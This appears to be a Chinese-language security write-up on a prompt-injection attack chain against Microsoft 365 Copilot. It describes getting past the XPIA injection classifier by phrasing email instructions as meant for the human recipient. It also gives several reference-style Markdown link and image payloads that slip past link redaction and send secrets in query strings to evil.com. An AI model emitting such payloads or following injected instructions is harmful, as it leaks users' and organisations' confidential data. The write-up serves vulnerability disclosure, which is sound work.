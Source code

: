 微软用于防止 AI 提示注入攻击的主要护栏之一是 XPIA（交叉提示注入攻击）分类器。通常情况下这些分类器可以阻止提示注入到达 M365 Copilot 的底层LLM。  
  
不幸的是，这很容易被绕过，只需将包含恶意指令的电子邮件措辞为这些指令是针对收件人的，就可以轻松绕过。  
  
由于电子邮件的内容从不涉及 AI/助手/Copilot 等，以确保 XPIA 分类器不会将该电子邮件检测为恶意邮件。  
  
另一个不幸的是，实际提示注入的质量数据集很少，由于快速注入可以隐藏多种主题，短语，音调，语言等，因此对 XPIA 分类器进行了适当的训练就需要大量的训练数据，而这些数据目前是缺失的。  
### 链接编辑绕过  
  
为了从 M365 Copilot 的上下文中泄露数据，还需要一个输出通道。  
  
因为 M365 Copilot 只能访问组织资源，并且仅对员工可访问，因此需要通过向用户提供一个链接，然后将用户带到攻击者的域名，并在攻击者的服务器上记录查询字符串参数来窃取数据。  
  
攻击者的指令指定查询字符串参数应该是LLM上下文中最敏感的信息，从而完成数据泄露。  
  
听起来很简单，是吧？  
  
这种方法的问题在于，Copilot 在用户有机会点击这些链接之前，就会从聊天历史中删除外部的Markdown 链接。  
  
Markdown链接类似下方格式的文本，它们在客户端渲染时可以点击。  
  
[Link display text](https://www.evil.com?param=<secret>)  
  
解决方案会确保仅将安全链接目标（即内部网页）呈现为用户可点击的链接。  
  
关于Markdown，其内容总比你想象的要多，比如下面引用样式的Markdown链接就不会被Microsoft有效识别：  
```
[Link display text][ref][ref]: https://www.evil.com?param=<secret>
```  
  
还有一些未被删除的变体，比如：  
```
[Link display text][Link display text]: https://www.evil.com?param=<secret>[Link display text][][Link display text]: https://www.evil.com?param=<secret>
```  
  
利用这些绕过，就可以构建出第一条利用链：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hZj512NN8jkYuOfTErPx6icEb9fzEpEibFefmSvbklXHhkprhoibk5AluyEVYECYRoib7JKMkXxBXkGbDBEujEEicMg/640?wx_fmt=png&from=appmsg "")  
### 图片编辑绕过  
  
为什么只满足于用户点击一个链接呢？是否可以做得更加巧妙？  
  
当尝试让LLM输出一张图片时，浏览器将自动尝试获取图片，因此我们可以不需要用户点击任何东西，而是让浏览器“帮我们点击链接”。  
  
Markdown的图片格式与Markdown链接非常相似，只是前面多了一个感叹号：  
  
![Image alt text](https://www.evil.com/image.png?param=<secret>)  
  
这样的Markdown图片格式也同样会受到链接编辑限制，但Markdown也支持引用图片：  
```
![Image alt text][ref][ref]: https://www.evil.com?param=<secret>
```  
  
还有一些其它变体：  
```
![Image alt text][ref][ref]: https://www.evil.com?param=<secret>![Image alt text][][Image alt text]: https://www.evil.com?param=<secret>
```  
  